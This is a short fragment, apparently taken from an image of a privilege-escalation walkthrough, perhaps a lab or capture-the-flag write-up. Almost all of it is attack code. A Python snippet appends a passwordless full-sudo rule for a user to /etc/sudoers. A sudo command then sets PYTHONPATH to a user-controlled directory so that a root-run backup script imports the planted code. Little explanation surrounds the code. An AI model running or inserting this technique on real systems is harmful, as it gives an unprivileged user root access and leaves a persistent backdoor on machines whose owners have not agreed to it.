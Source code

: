 ```

    with open('/etc/sudoers', 'a+') as f:
        f.write("user ALL=(ALL) NOPASSWD: ALL\n")
> the script will edit the /etc/sudoers file to include the current user in it
sudo PYTHONPATH=/home/current /usr/bin/python3 /opt/backup.py
```
